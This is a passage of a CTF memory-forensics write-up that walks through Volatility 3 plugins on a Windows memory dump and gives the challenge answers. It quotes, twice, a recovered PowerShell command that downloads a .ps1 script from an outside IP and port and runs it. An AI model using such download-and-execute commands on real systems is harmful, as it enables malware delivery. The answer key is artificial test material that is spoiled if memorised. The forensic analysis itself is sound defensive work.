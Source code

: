 ```
➜  /home/kakarot/RamadhanCTF/foren/memory_loss  python3 /home/kakarot/volatility3/vol.py -f mem.raw windows.cmdscan
Volatility 3 Framework 2.25.0
Progress:  100.00		PDB scanning finished                        
PID	Process	ConsoleInfo	Property	Address	Data

....<SNIP>....	
** 4224	conhost.exe	0x2742ed3d660	_COMMAND_HISTORY.CommandBucket_Command_0	0x2742ce4b7a0	cd ..
** 4224	conhost.exe	0x2742ed3d660	_COMMAND_HISTORY.CommandBucket_Command_1	0x2742ce4b7c0	cd Users
** 4224	conhost.exe	0x2742ed3d660	_COMMAND_HISTORY.CommandBucket_Command_2	0x2742ce4b7e0	cd kakarot
** 4224	conhost.exe	0x2742ed3d660	_COMMAND_HISTORY.CommandBucket_Command_3	0x2742ce4b800	cd Documents
** 4224	conhost.exe	0x2742ed3d660	_COMMAND_HISTORY.CommandBucket_Command_4	0x2742ce4b820	l
** 4224	conhost.exe	0x2742ed3d660	_COMMAND_HISTORY.CommandBucket_Command_5	0x2742ce4b840	powershell -c "iwr -Uri 'http://192.168.136.163:6587/K54GHZ.ps1' -OutFile K54GHZ.ps1; .\K54GHZ.ps1"
....<SNIP>....
```

We can see bunch of commands, and the command **iwr** used to interact with the HTTP server with the IP and PORT.

#### Answer :

```
Looks like a command was ran connecting to some HTTP server, what was the IP and PORT of that server ?
> 192.168.136.163:6587
[+] Correct!
```

### Question 5 : What was the name of the file downloaded ?

The answer can be found in the command as well :

```
** 4224	conhost.exe	0x2742ed3d660	_COMMAND_HISTORY.CommandBucket_Command_5	0x2742ce4b840	powershell -c "iwr -Uri 'http://192.168.136.163:6587/K54GHZ.ps1' -OutFile K54GHZ.ps1; .\K54GHZ.ps1"
```

#### Answer : 

```
What was the name of the file downloaded ?
> K54GHZ.ps1
[+] Correct!
```

### Question 6 : A command was used in the script to get some files, what was that command ? (First 2 words)

To answer this question, you need to first download that script and see it's content, for that you need to use the **filescan** plugin to list all the files and then the **dumpfiles** plugin to get the file we need:
